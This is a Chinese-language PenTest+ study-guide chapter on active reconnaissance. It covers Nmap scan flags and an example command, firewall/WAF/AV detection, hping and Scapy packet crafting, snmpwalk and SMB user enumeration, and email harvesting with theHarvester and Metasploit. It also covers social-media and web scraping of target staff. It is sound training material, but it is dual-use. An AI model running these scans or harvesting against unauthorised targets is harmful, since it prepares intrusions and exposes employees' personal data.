在网络上枚举主机通常是大多数渗透测试人员准备评估目标时首先想到的任务。主动扫描可以识别许多主机，仅依赖端口扫描器来识别主机可能很诱人，但在网络上识别主机的方法还有很多，结合多种方法可以帮助确保您没有遗漏系统。以下是一些值得牢记的识别系统的其他方法：

*   利用微软的 Endpoint Configuration Manager、Jamf Pro 或其他维护系统、其 IP 地址及其他信息的清单的工具等集中式管理系统。

*   网络日志和配置文件可以提供关于网络上系统的大量信息。DHCP 服务器的日志尤其有价值，因为大多数现代网络严重依赖 DHCP 向连接到网络的系统分配地址。路由器日志、ARP 表和其他网络信息也可能非常有价值。

在未知环境测试中，您通常无法在测试后期才能获取此类信息，甚至可能根本无法捕获。这并不意味着您应该忽略它，但这意味着端口扫描仍然是许多渗透测试人员在接触早期会尝试的第一种技术。

## 服务

服务识别是渗透测试人员在进行主动侦察时最常执行的任务之一。识别服务可以提供潜在目标列表，包括易受攻击的服务以及您可以使用现有凭据进行测试的服务，甚至只是为了收集更多信息。服务识别通常使用端口扫描器来完成。

端口扫描工具旨在向远程系统发送流量，然后收集提供系统及其包含的服务信息的响应。这使它们成为渗透测试人员工具箱中最常用的工具之一，因此您在考试中会经常看到它们。

尽管有许多 `port scanners`，但它们几乎都具有一些共同功能，包括：

*   主机发现

*   端口扫描和服务识别

*   服务版本识别

*   操作系统识别

端口扫描的一个重要部分是了解常见端口和服务。端口 0–1023 称为 `well-known ports` 或 `system ports`，但在进行端口扫描时，还有许多较高的端口通常值得关注。范围从 1024 到 49151 的端口是 `registered ports`，在请求时由 IANA 分配。许多端口也被任意用于服务。由于端口可以手动分配，仅仅假设在给定端口上运行的服务与常见用途相匹配并不总是个好主意。特别是，许多 SSH 和 HTTP/HTTPS 服务器在备用端口上运行，要么是为了允许多个 Web 服务拥有唯一端口，要么是为了避免仅针对其正常端口的端口扫描。

Table 3.1 列出了一些最常见的有趣端口。

TABLE 3.1 常见端口和服务

| Port | TCP/UDP | Service |
| --- | --- | --- |
| 20 | TCP, UDP | FTP data |
| 21 | TCP, UDP | FTP control |
| 22 | TCP, UDP | SSH |
| 23 | TCP, UDP | Telnet |
| 25 | TCP, UDP | SMTP (email) |
| 53 | UDP | DNS |
| 67 | TCP, UDP | DHCP server |
| 68 | TCP, UDP | DHCP client |
| 69 | TCP, UDP | TFTP |
| 80 | TCP, UDP | HTTP |
| 88 | TCP, UDP | Kerberos |
| 110 | TCP, UDP | POP3 |
| 123 | TCP, UDP | NTP |
| 135 | TCP, UDP | Microsoft EPMAP |
| 136–139 | TCP, UDP | NetBIOS |
| 143 | TCP | IMAP |
| 161 | UDP | SNMP |
| 162 | TCP, UDP | SNMP traps |
| 389 | TCP, UDP | LDAP |
| 443 | TCP, UDP | HTTPS |
| 445 | TCP | Microsoft AD and SMB |
| 500 | TCP, UDP | ISAKMP, IKE |
| 515 | TCP | LPD print services |
| 1433 | TCP | Microsoft SQL Server |
| 1434 | TCP, UDP | Microsoft SQL Monitor |
| 1521 | TCP | Oracle database listener |
| 1812, 1813 | TCP, UDP | RADIUS |

### 服务和版本识别

识别服务的能力可以提供关于潜在漏洞的有用信息，并验证在给定端口上响应的服务是否与通常使用该端口的服务相匹配。服务识别通常有两种方式：要么连接并捕获服务提供的 `banner` 或连接信息，要么将其响应与已知服务的签名进行比较。

### 操作系统指纹识别

根据系统发送的网络流量识别操作系统的能力称为 `operating system fingerprinting`，在进行侦察时可以提供有用信息。这通常使用 TCP/IP 堆栈指纹识别技术来完成，这些技术专注于比较发送到远程主机的 TCP 和 UDP 数据包的响应。操作系统及其版本在响应方式、支持的 TCP 选项、发送数据包的顺序以及许多其他细节上的差异，通常可以很好地推测远程系统运行的是什么操作系统。Figure 3.11 显示了针对 `scanme.nmap.org` 示例主机的操作系统识别测试。请注意，在此示例中，操作系统识别难以识别主机，因此我们的答案不如您预期的那么清晰。



FIGURE 3.11 Nmap scan using OS identification

PenTest+ 考试目标在子领域 2.4 下包含一个关于在信息收集场景中使用 Nmap 的完整小节。`Nmap` 是最常用的命令行漏洞扫描器，是一款免费的开源工具。它提供了广泛的功能，包括多种旨在绕过防火墙和其他网络保护设备的扫描模式。此外，它还支持操作系统指纹识别、服务识别以及许多其他功能。

使用 Nmap 的基本功能非常简单。对系统进行端口扫描只需安装 Nmap 并提供目标系统的主机名或 IP 地址即可。Figure 3.12 显示了对防火墙关闭的 Windows 10 系统进行的 Nmap 扫描。Nmap 作为其默认扫描的一部分扫描了 1,000 个最常用的端口，显示了一系列常见的 Microsoft 端口。



FIGURE 3.12 Nmap output of a Windows 10 system

更典型的 Nmap 扫描可能会包含许多 Nmap 的命令行标志：

*   一种扫描技术，例如 TCP SYN、Connect、ACK 或其他方法。默认情况下，Nmap 使用 TCP SYN 扫描（`‐sS`），允许快速扫描并倾向于穿过大多数防火墙。此外，仅发送 SYN（并接收 SYN/ACK）意味着 TCP 连接未完全建立。TCP connect（有时称为“全连接”）扫描（`‐sT`）完成 TCP 三次握手，通常在使用 Nmap 的用户帐户没有创建原始数据包所需的权限时使用——这对于在测试期间可能尚未获得特权帐户的渗透测试人员来说很常见。另一个常见的扫描技术标志是 `‐sU` 标志，用于执行仅 UDP 扫描。如果您只需要扫描 UDP 端口，此标志允许您执行此操作。

*   一个端口范围，可以使用 `‐p` 标志指定端口，包括完整的 1–65535 范围，也可以按端口名称指定，例如 `‐p http` 。

*   `‐sA` 标志用于执行 TCP ACK 扫描，最常用于测试防火墙规则集。这可以帮助确定防火墙是否有状态，但无法确定端口是开放还是关闭。


# Nmap 扫描标志与网络探测

*   `‐sT` 标志执行 TCP 连接扫描，并使用系统调用来完成，允许你在没有权限构造原始数据包的系统上使用它。它还支持 IPv6 扫描，而 SYN 扫描不支持 IPv6。

*   `‐sU` 标志执行 UDP 扫描，允许你识别基于 UDP 的服务，但它不执行 TCP 扫描。

*   `‐sS` 标志将执行 TCP SYN（隐蔽）扫描，这种扫描经常被使用，因为它非常快，并且被认为比连接扫描更隐蔽，因为它不完成 TCP 握手，尽管这越来越可能被现代防火墙和安全系统检测到。

*   `‐T0` 到 `‐T5` 标志影响速度。`T0` 非常慢，而 `T5` 非常激进。

*   使用 `–sV` 标志进行服务版本检测。

*   使用 `–O` 标志进行操作系统检测。

*   使用 `‐Pn` 标志禁用 Ping。

*   通过 `‐T` 时序标志控制扫描的激进程度。时序标志可以通过 0 到 5 的数值设置，也可以通过标志的文本表示名称设置。如果使用数字，0 将运行异常缓慢的扫描，而 5 是非常快的扫描。这些标志的文本表示，按顺序为 paranoid|sneaky|polite|normal|aggressive|insane。一些测试人员会使用 paranoid 或 sneaky 设置来尝试避免入侵检测系统或避免使用带宽。正如你可能猜到的，`‐T3`，即 normal，是 Nmap 扫描的默认速度。

*   使用 `‐IL` 从目标文件读取输入。

*   输出到多种格式。你需要熟悉 `‐oX` XML 输出标志、`‐oN`“正常”输出模式，甚至过时的 `‐oG` 可 grep（可搜索）格式，XML 几乎完全取代了该格式。`‐oA` 文件，或“全部”输出模式，接受一个基本文件名，并同时输出正常、XML 和可 grep 格式，分别为 `basename.nmap`、`basename.xml` 和 `basename.gmap`。如果你使用多种工具来处理 Nmap 结果，这将是一个非常有用的选项！

Figure 3.12 显示了一个 Windows 系统（防火墙已关闭）的示例默认扫描。系统上运行着超出典型 Windows 服务的多个其他服务，但我们可以快速识别端口 135、139 和 445 作为典型的 Windows 服务。

Nmap 使用几乎是任何渗透测试的重要组成部分。这意味着你应该能够读取 Nmap 命令行并识别正在发生的情况。例如，典型的命令行可能如下所示：

```
nmap -sT -sV -Pn -p 1-65435 -T2 -oA scanme scanme.nmap.org
```

要了解此命令将执行什么操作，你必须了解每个标志以及命令行的构建方式。从左到右，我们看到这是一个 TCP 连接扫描（`‐sT`），我们正在尝试识别服务（`‐sV`），它不会发送 Ping（`‐Pn`），它正在使用 `‐p` 端口选择标志扫描 1 到 65435 的端口范围，时序比正常慢，使用 `‐T2` 标志，最后，扫描完成后将输出发送到名为 `scanme.nmap`、`scanme.xml` 和 `scanme.gmap` 的文件。命令的最后部分是目标的主机名：[scanme.nmap.org](http://scanme.nmap.org)。

如果你想练习 Nmap 技术，可以使用 [scanme.nmap.org](http://scanme.nmap.org) 作为扫描目标。提供该服务的人要求你将其用于测试扫描，并且不要对其进行滥用或高负载使用。你还可以使用诸如 Rapid 7 的 Metasploitable 虚拟机（[`information.rapid7.com/metasploitable-download.html`](https://information.rapid7.com/metasploitable-download.html)）等工具设置其他扫描目标，它提供了许多有趣的服务来扫描和利用。

除了传统的端口扫描功能外，Nmap 包含 NSE，即 Nmap 脚本引擎。预构建的脚本允许额外功能，包括从命令行进行漏洞扫描。你可以在 [`nmap.org/nsedoc/index.html`](https://nmap.org/nsedoc/index.html) 找到脚本列表及其功能。要使用漏洞扫描脚本，可以使用 `‐script=vuln` 标志。

## Networks, Topologies, and Network Traffic

在黑盒渗透测试开始时，你对网络、其布局和设计以及可能携带的流量知之甚少。随着你对目标网络或网络了解得更多，你可以开始绘制网络拓扑或逻辑设计。了解网络的布局以及网络上存在哪些子网、网络设备和安全区域，对于渗透测试的成功可能至关重要。

### Network Topology

了解网络的拓扑或布局有助于渗透测试人员设计其扫描和攻击流程。拓扑图可以提供关于哪些系统和设备可能可访问的信息，从而帮助你决定何时切换到不同的目标以绕过安全控制。拓扑图可以使用诸如 Nmap 的 Zenmap GUI 以及专门构建的网络拓扑映射程序等工具生成。虽然如 Figure 3.13 所示的 Zenmap 拓扑图并不总是完全准确，但在你试图描绘网络时它可能很有帮助。



FIGURE 3.13 Zenmap topology view

### Detecting Network Defenses

渗透测试人员通常试图确定组织已有的基础设施和技术防御。这意味着在扫描和测试期间使用检测技术，并尽可能将该信息与 OSINT 相结合。PenTest+ 考试大纲侧重于你需要了解的四种检测类型：

*   使用诸如 lbd（负载平衡检测器）之类的工具进行负载均衡器检测，以确定是否存在基于 DNS 或 HTTP 的负载均衡器。诸如 lbd 之类的工具将分析服务器的标头和响应差异，以确定是否存在负载均衡器。你还可以简单地执行 DNS 查询甚至 Ping，以查看网站是否解析为多个 IP 地址以及生存时间（TTL）是否不同。Web 应用程序防火墙（WAF）可以通过审查 Cookie、标头和 HTTP 响应，并查找特定行为（例如使用 FIN/RST 数据包来结束不需要的连接）来检测。

*   与这里的其他工具不同，远程检测防病毒（AV）和反恶意软件工具要困难得多，因为它们不提供远程可见的签名或响应。防病毒软件对渗透测试人员来说可能很棘手，因为它可能会检测并删除有用的工具。幸运的是，诸如 BeEF（Browser Exploitation Framework）之类的工具提供防病毒检测模块，可在获得目标系统访问权限后用于检测目标系统上的 AV。

*   防火墙有许多常见的指纹可以检测。跟踪路由可以显示流量不再通过的位置，但更详细的信息需要更复杂的工具。渗透测试通常使用 Nmap 扫描来测试防火墙，尽管防火墙设备可能会尝试防止扫描仪检测它们。与负载均衡器一样，防火墙检测功能会关注可能提供关于实际响应设备类型的线索的响应。一旦识别出防火墙，下一步通常是使用诸如 Firewalk 之类的工具映射防火墙后面的设备，Firewalk 扫描以确定防火墙设备会允许哪些协议通过。


渗透测试人员不会惊讶地发现，nmap 有一个 NSE 脚本会尝试确定目标是否受到 IDS/IPS 或 WAF 的保护。使用 `http‐waf‐detect` NSE 脚本是测试至少某些防护设备的一种可能性。可以使用 `wafw00f` 和 `WhatWaf` 等工具来尝试检测 Web 应用防火墙，并且可以使用类似于投放 EICAR 副本（常用于 AV 验证的样本病毒）的技术来检测防病毒工具的存在。

#### 窃听和数据包捕获

除了主动扫描主机和收集拓扑信息之外，渗透测试人员还会使用数据包捕获或嗅探工具进行窃听来收集信息。`Wireshark` 等工具常被用于被动收集网络信息，包括 IP 地址、MAC 地址、数据包的生存时间，甚至在未加密时关于服务和流量内容的数据。

可以使用 `Wireshark` 从无线网络捕获网络流量，但专用的无线捕获工具如 `Kismet` 也很受欢迎。`Kismet` 提供了在嗅探无线网络时可能有用的附加功能，包括查找隐藏 SSID 的能力、无线客户端和接入点的被动关联，以及各种有助于解密加密流量的工具。

值得注意的是，一些组织使用非 Wi-Fi 无线网络，包括蓝牙通信、专有协议和其他基于 RF（射频）的通信方法。正如你所想象的，蓝牙是大多数渗透测试人员遇到的最常见的非 Wi-Fi 无线实现，而其短距离可能使得在不靠近目标的情况下拦截变得具有挑战性。幸运的是，蓝牙通常相对不安全，如果你能进入范围内或获得可以提供该访问权限的系统的访问权，信息收集就会变得更容易。

如果你的客户端或目标使用的通信方法不在渗透测试的典型范围内（例如以太网和 Wi-Fi 网络），你需要确保拥有捕获和解释该流量所需的正确工具、软件和知识，并且该流量在适当的情况下要么在范围内，要么不在范围内。

#### SNMP 扫描

收集网络设备信息的另一种方法是进行 `SNMP 扫描`。SNMP 扫描通常需要对网络具有内部访问权限，因此可能不在你主动侦察活动的第一轮中，但在你渗透了组织的外部防御后，它可能非常有价值。

在大多数网络中进行 SNMP 扫描需要你获取网络设备使用的社区字符串，并且系统没有响应并不意味着该 IP 地址处没有系统。事实上，缺乏响应可能有四种可能原因：你可能使用了错误的社区字符串，系统可能不可达（被防火墙阻断或离线），SNMP 服务器服务可能未运行，或者 SNMP 使用 UDP 这一事实对你不利，响应尚未收到——并且可能永远不会收到！

这都不意味着你不应该尝试对网络进行 SNMP 扫描以收集信息。这仅仅意味着你在使用扫描工具之前可能需要更多的准备。一旦你拥有所需的信息，SNMP 扫描可以大大帮助改进你的网络拓扑图和设备发现。

### 数据包构建与检查

除了数据包捕获和网络扫描之外，渗透测试人员有时需要直接与数据包和流量交互以收集所需的信息。手动或工具辅助的数据包创建可以让你发送原本不存在的数据包，或者使用你自己的有效载荷修改合法数据包。数据包构建和检查可能涉及四个典型任务：

*   数据包审查和解码

*   从头开始组装数据包

*   编辑现有数据包以修改其内容

*   重放数据包

`Wireshark` 对数据包分析非常有用，但渗透测试人员通常使用其他工具进行数据包构建。`Hping` 很受欢迎，因为它允许你轻松创建自定义数据包。例如，使用 hping 向远程系统发送 SYN 数据包可以使用以下命令完成：

```
hping -S -V targetsite.com -p 8080
```

在此示例中，`hping` 命令将向 [targetsite.com](http://targetsite.com) 的 TCP 端口 8080 发送 SYN 数据包并提供详细输出。虽然你可能不总是知道命令使用的标志，但许多标志可以猜测——这是一个值得记住的实用技巧，以备考试之用！除了 hping，其他流行的工具还包括 `Scapy`、`Yersinia`，甚至 `Netcat`，但许多渗透测试人员可能会从 hping 开始进行日常使用。

Figure 3.14 展示了 Scapy 等工具的强大功能。使用命令行工具构建数据包可以让你执行简单的操作——如前面所示向 Web 服务器端口进行 TCP ping——但它也可以让你执行复杂的操作，例如自定义构建 TCP 或其他数据包以测试漏洞或作为漏洞利用的一部分。



FIGURE 3.14 Scapy packet crafting for a TCP ping

PenTest+ 考试大纲特别要求你了解 ARP 流量的样子及其含义。ARP（地址解析协议）用于确定哪个主机拥有哪个 IP 地址。因此，通过 Wireshark 捕获的 ARP 请求和响应可能如 Figure 3.15 所示。



FIGURE 3.15 ARP query and response

像这样分析流量可以提供关于网络上其他主机的有用信息，你需要确保自己对数据包捕获工具及其捕获的常见流量相当熟悉。

# 枚举

为渗透测试构建潜在目标列表可能是一项艰巨的任务。如果范围和交战规则允许，你可以枚举网络设备、系统、用户、组、共享、应用程序以及许多其他可能的目标。在接下来的几页中，我们将探讨枚举每个目标的一些常见方法。在回顾每个目标类型时，请记住，既有技术方法也有社会工程学方法来获取这些数据，我们在此讨论的技术方法并非你可能遇到的唯一可能方法。

#### 用户

在过去，你通常可以通过 finger 和 rwho 等服务从 Linux 系统枚举用户。现在，用户枚举需要更多工作。通过暴露服务枚举用户的最常见方式是 SMB 和 SNMP 用户枚举，但一旦你获得对系统的访问权限，也可以直接从用户文件、目录，有时通过目录服务枚举用户。在许多组织中，用户帐户与电子邮件帐户相同，使得电子邮件用户枚举成为一项非常重要的技术。

##### 电子邮件

收集有效的电子邮件地址通常发生在网络钓鱼活动或其他渗透测试活动之前。除了更手动的选项之外，`theHarvester` 是一个旨在从搜索引擎（包括 Shodan）和其他来源收集电子邮件、员工姓名、子域和主机信息，以及开放端口和横幅的程序。


正如你所料，Metasploit 也包含类似功能。使用 Metasploit 的电子邮件收集工具搜索 [Wiley.com](http://wiley.com) 域（我们的出版商），使用 Google 并限制为 500 个结果，返回了 11 个电子邮件地址、14 个在搜索引擎中找到的主机名，以及 Shodan 的空结果集。手动完成同样的工作会相当缓慢，因此使用 Metasploit 和 theHarvester 等工具可以快速制定初始目标列表的有用方法。

Metasploit 还包含一个收集引擎，如 图 3.16 所示。我们将在后续章节中深入探讨 Metasploit 的用法，但目前，你应该知道 `/auxiliary/gather/search_email_collector` 工具也提供了易于使用的电子邮件地址收集工具。



FIGURE 3.16 Harvesting emails using Metasploit

渗透测试人员还可以购买商业电子邮件地址列表，搜索受损网站账户列表中的电子邮件，或使用其他众多电子邮件地址来源。

### 社交网络站点

社交媒体枚举专注于识别个人或组织的所有社交媒体账户。这些账户有时会在利用阶段被针对，用于密码攻击、社会工程攻击，或试图利用密码重置或其他受损账户来获取访问权限。

#### 组

组有多种形式，从 AD 域中的 Active Directory 组到身份管理套件内置的组管理工具。组也存在于应用程序和服务管理界面中。作为渗透测试人员，你需要了解既有哪些组，以及它们可能关联哪些权限、角色或权限。

渗透测试人员经常针对组管理界面和工具，因为将非特权用户添加到特权组可以提供一种轻松获取额外权限的方法，而无需直接监控该用户。

如果你的目标支持 SNMP，并且你拥有适当的社区字符串，可以使用 `snmpwalk` 枚举用户，如下所示，使用 `public` 作为社区字符串，`10.0.0.1` 作为目标主机。`snmpwalk` 输出管道到的 `grep` 和 `cut` 命令将为用户提供来自整体 snmpwalk 输出的信息。

```
snmpwalk public -v1 10.0.0.1 1 | grep 77.1.2.25 | cut -d "" -f4
```

Samba 用户也可以使用 samrdump ([`github.com/CoreSecurity/impacket/blob/impacket\_0\_9\_15/examples/samrdump.py`](https://github.com/CoreSecurity/impacket/blob/impacket_0_9_15/examples/samrdump.py)) 等工具收集，它与安全账户管理器远程接口通信以列出用户账户和共享。

### 关系

了解用户之间的关系在试图理解组织时可能非常有用。社交媒体映射工具和可视化平台可用于探索这些关系。Kumu ([`kumu.io/markets/network-mapping`](https://kumu.io/markets/network-mapping)) 等工具可以快速显示焦点和互连。还有其他关系可视化工具可用，使大数据技术对渗透测试人员来说更易于接近。

### 共享

枚举 `Samba` (SMB) 共享旨在找到所有可用共享，哪些是可读可写的，以及关于共享的任何其他可收集信息。SMB 扫描器内置于各种漏洞扫描工具中，还有一些专门构建的 SMB 扫描器，如 `SMBMap`。Nmap 包含 `smb‐enum‐shares` 和 `smb‐enum‐users` NSE 脚本。

### URL、网页和服务器

网页和服务器可以使用各种工具进行爬取和枚举。一旦你识别出 Web 服务器，专用 Web 应用评估工具（如 `w3af`、`Burp Suite` 和许多其他工具）可以使此过程更容易。

许多设备提供嵌入式 Web 界面，因此在对较大组织进行主动扫描时，你可能会发现大量 Web 服务器。渗透测试人员必须执行的首要任务之一是将目标列表缩小到一组有用的初始目标。为此，了解服务器可能托管的应用程序和站点，并对其进行指纹识别以获取足够信息，这很有帮助。

### 爬取和抓取网页

Web 爬取是使用工具自动搜索网站的过程。Web 爬取工具（通常称为“蜘蛛”）遵循由范围设置定义的链接，这些设置决定它们是否可以访问其他域、子域或网站，以及通过链接会爬取多深。这种自动化探索过程可以帮助渗透测试人员识别 Web 内容和目录，并可以揭示有用信息所在的位置——或者信息可能可访问但未链接的位置！

Web 抓取与 Web 爬取类似，但会捕获在站点上找到的信息、网页和其他数据。渗透测试人员随后可以收集数据并搜索其中的电子邮件地址、目录、文件名或其他潜在有趣或有用的信息。爬取和抓取目标的网站可以为渗透测试过程中的分析和审查提供大量信息。抓取社交媒体和其他网站还可以揭示关键信息，例如重要联系人、他们的职责、组织可能使用的技术，甚至招聘启事等细节，这些可以提供关于组织基础设施和技能的有用提示。当然，这也意味着渗透测试人员可能需要处理大量信息，因此自动化审查和分析并使搜索有用也很重要，以避免浪费时间。

### 手动检查 `Robots.txt` 和 Web 链接

`robots.txt` 文件旨在告诉搜索引擎和其他自动爬虫忽略站点上的特定文件、目录或其他材料。由于 `robots.txt` 文件中列出的文件不打算被索引，因此它们可能对渗透测试人员感兴趣，因此手动验证这些文件和目录的内容是一种常见做法。

渗透测试人员还通常会审查 Web 链接，以检查有趣的目录。如果文件存储在目录中，你可以选择手动访问该目录，看看是否开启了目录索引。你还可以检查该目录中的常见文件名，或根据你在其他地方能够识别的其他链接来猜测文件名。这意味着跟踪链接并思考它们如何适应目录和文件架构是渗透测试人员的一项有用技能。

### 声誉和安全态势

关于目标组织的数据收集也可以提供有关组织声誉的有用提示。Glassdoor 等网站经常包含最近的帖子，这些帖子可以定下组织的基调，无论员工是否满意，或者是否存在内部问题。它们还可以通过让渗透测试人员听起来像了解组织态度和问题的内部人士，为社会工程攻击提供有用信息。新闻网站、新闻稿和文章随后可以提供有关组织声誉以及公开发布的信息，以提供对组织的更完整视图。

与此同时，信息收集还可以提供组织整体安全态势的有用视图。审查招聘启事、网站、社交媒体和其他网站可以帮助你建立一个档案，从而更好地为渗透测试做好准备。

### 应用程序


# 枚举组织的所有应用程序

枚举组织的所有应用程序可能具有挑战性，尤其是在安全环境中。通常，渗透测试人员在渗透测试的早期阶段只能连接到公共应用程序，然后必须在深入组织内部时不断重新评估哪些应用程序和服务可能对他们可访问。这种情况在应用程序枚举过程的每个阶段都会发生。

## 指纹识别

应用程序评估依赖于了解应用程序的信息，例如名称、版本号、底层 Web 服务器和应用程序堆栈、主机操作系统以及可以收集的任何其他详细信息。与您之前了解的操作系统指纹类似，此信息有时也称为指纹。应用程序指纹识别通常从横幅抓取开始。幸运的是，`Netcat` 胜任此项任务。在 图 3.17 中，我们使用 Netcat 连接到远程主机，然后发出 HTTP `GET` 命令以检索横幅信息。这告诉我们远程主机正在运行 Apache 2.2.8。

